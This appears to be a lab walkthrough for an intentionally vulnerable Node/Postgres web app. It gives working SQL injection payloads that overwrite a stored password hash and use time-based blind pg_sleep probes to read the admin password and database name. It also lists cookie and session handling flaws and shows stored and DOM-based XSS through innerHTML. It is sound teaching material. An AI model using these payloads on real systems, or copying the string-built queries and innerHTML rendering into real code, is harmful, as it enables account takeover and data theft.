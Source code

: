  

## SQL Injection Steps

* Bypass login function with sql injection
 - The following can be used to guess a password, but you can change the query accordingly
 ```
 /login password field, replaces your hash!
 test'; INSERT INTO users (username,password) VALUES ('test', '$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW') ON CONFLICT (username) DO UPDATE SET password='$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW';--
 ```
 - Possible variation assuming we DON'T know the name of the password field.
```
test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--
``` 

* Try a blind scenario to get the DB name
- If your database name is "postgres" this will work otherwise use something like intruder to build out the query and dump the db name based on time responses

```
/register username field
johnny','test'); SELECT CASE WHEN (SUBSTR((SELECT current_database()),1,1))='a' THEN (select pg_sleep(3)) ELSE NULL END;--
```
 - Read Jakes blog about safe sql injection!

* Set up a reflected scenario that will print SQL results to you in the UI and get info from it

```
/forgot
router.post('/forgot', async function(req, res, next) {
  console.log(`SELECT * from users where username='${req.body.username}';`);
  var db_response = await client.query(`SELECT * from users where username='${req.body.username}';`);
  console.log(db_response);
  var username_return = '';
  db_response.rows.forEach(element => username_return+=element.username);
  res.render('forgot_valid',{user:username_return});
});
```
Try and send a password reset for username `' OR '1'='1`


 SELECT current_database()

 test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--

## Cookie vulns

### Boils down to 2 vulns, weakness in token generation or weakness in session token handling

#### Weakness in token generation
  <b>Predicatble tokens</b>
 * Current cookie creation does not implement sufficient entropy, thus the cookies are brute forceable!
 Cookie follows general pattern of `xyz$d$d$d$d$d` where `$d` represents a number 0-9
 * Immediately noticeable pattern
 
#### Weakness in session handling

<b>Disclosure of Tokens on Network</b>
* Not using HTTPS, application and client are sending session token over the network in plain text.

<b>Vulnerable mapping of tokens to sessions</b>
* Multiple valid tokens are allowed to be assigned concurrently to the same user account

<b>Vulnerable session termination</b>
* No logout function
* Cookies do not time out browser side
* Server does not perform session destruction, auth token still associated with the user on the backend for whom it was issued

* <i>SQL Injection note: passwords are bcrypt hashed, however if you are able to dump the sessions table, since the sessions are persistent theres no reason to go for the passwords as you can just simply use an auth token to authenticate as a user</i>

<b>Cookie scope</b>
* Session cookies are not scoped to a particular domain


* Token currently not sent in hidden form field! CSRF is much easier in that case

## XSS

### Stored XSS

* Stored XSS possible in the comment section, with `Access-Control-Allow-Origin:*` CSRF is readily available.

### Dom based (Stored non-URL based)

<b>Dom Based - TLDr;</b>
Data from a client/attacker controlled source is ultimately passed to an unsafe JS object that renders the input to the HTML using methods that support dynamic exection such as `eval()` or `innerHTML()`

* Register a new user with a nickname like `<script>alert(1)</script>`

The nickname is then set as a request param which will be sent along with any subsequent authenticated request the user makes.

Code for rendering the profile page looks like 
```
<h2>Nickname for user:</h2><p id="nicknameheader">{{{nickname}}}</p>
...
<script>
        function selector(){
            var nicknamevalue = document.getElementById("nicknameheader").innerHTML;
            document.getElementById("quote").innerHTML=nicknamevalue;
        }
</script>
<script>window.onload= selector;</script>
...
<div>
    <p id="quote"></p>
</div>
```

As you can see, the nickname param is being rendered to the DOM via the innerHTML() method which allows then for stored, dom based xss (in a technical sense)

More work required to make this URL based.

How would that work?

If a user submitted value were stored and then reflected in the URL for all subsequent requests, and if that page also supported rendering to the HTML like above using a method like 
```
document.location.href.substring
```
To parse the URL and then render that value to the page's HTML